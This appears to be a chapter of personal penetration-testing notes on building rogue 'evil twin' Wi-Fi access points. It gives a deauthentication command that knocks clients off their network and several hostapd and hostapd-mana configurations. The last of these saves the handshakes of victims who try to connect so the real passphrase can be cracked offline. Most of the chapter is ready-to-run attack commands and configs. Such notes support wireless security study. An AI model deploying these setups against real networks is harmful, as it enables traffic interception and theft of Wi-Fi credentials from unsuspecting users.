 # Chapter 8 - Rogue AP
## Creating a Rogue AP
Evil twins can be in any channel, except if we clone the BSSID of the AP we want to impersonate, in which case the channel must be different. But APs with different BSSID and equal ESSID can coexist in the same channel.

If we get a connection in an evil twin, the connected client won't have internet access if we don't give him an IP with a dhcp server.

<font color=red>with hostapd, we need to be listening with airodump (on another wifi interface) at the same time that we host the fake ap, to capture handshakes of clients that try to connect to us, despite the PSK mismatch (since we don't know the real PSK but will crack it from their handshake to us)</font>

Deauth a client if he doesn't connect to our AP
``sudo aireplay-ng --deauth 4 -a <bssid> -c <client_MAC> wlan0mon``

### hostapd / hostapd-mana
hostapd-mana is an enhanced version of hostapd. Both are used for hosting fake APs, but mana includes more options to do things like dump passwords obtained from the handshake. Hostapd-mana can read hostapd config files, but also includes other options 

Install
```bash
sudo apt install hostapd-mana
sudo apt install hostapd-mana
```

Run
```bash
hostapd a.conf
hostapd-mana a.conf
```

Parameters: 
- ``driver=nl80211``  -> always the same for all linux devices
- ``hw_mode=g`` -> 2.4 GHz  y 54 Mb
- auth_algs (this is for WEP, for WPA use the equivalent ``wpa`` parameter-> 
	- ``auth_algs=0`` ->OPEN
	- ``auth_algs=1`` ->WEP
	- ``auth_algs=2`` -> Both
- ``wep_key0`` <- we can use up to 4
- Type of security
	- ``wpa=3`` -> activate both WPA and WPA2
	- ``wpa=2`` -> activate only WPA2
	- ``wpa=1`` -> activate only WPA

Type of authentication:
- ``wpa_key_mgmt=WPA-PSK``
- ``wpa_passphrase=<passphrase>`` -> passphrase in the case of PSK auth, we can set anything here, we don't care it's wrong

Encryption type (if the target is exclusiveliy WPA1 or WPA2 use just one of the following):
- ``wpa_pairwise=TKIP CCMP`` -> TKIP or CCMP encryption with WAP1
- ``rsn_pairwise=TKIP CCMP`` -> TKIP or CCMP encryption with WPA2

- ``mana_wpaout``-> where to save the captured handshakes (in a Hashcat hccapx format). 

#### hostap with  no encryption
```
interface=wlan1
ssid=hostel-A
hw_mode=g
channel=6
driver=nl80211
```

#### hostap with wep
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=hostel-A
auth_algs=1
wep_default_key=0
wep_key0="54321"
```

#### hostap with WPA-PSK
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=HomeAlone
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
wpa_passphrase=welcome@123
```

#### hostap with WPA2-PSK
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=Lost-in-space
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_passphrase=beautifulsoup

# SSID 2
bss=wlan1_0
ssid=LOCOMO-Mobile-hotspot
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_passphrase=beautifulsoup
```

alternative
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211

ssid=Lost-in-space
auth_algs=1
wpa=2
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
wpa_passphrase=beautifulsoup
```

#### Hosting several APs
Two different ESSIDs with the same wifi antenna (interface wlan1). With hostap, if we want to simulate several ESSIDs, the first one must use the keyword "interface" and the real interface name, and the next ones use the keyword "bss" and we use fictitious names, like wlan1_0. This can be used if a client probes different clients.
```
# SSID 1
interface=wlan1
driver=nl80211
ssid=dex-net
wpa=2
wpa_passphrase=123456789
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1

# SSID 2
bss=wlan1_0
ssid=dex-network
wpa=2
wpa_passphrase=123456789
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1
```


```
interface=wlan0
ssid=<ESSID>
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/output.hccapx
```

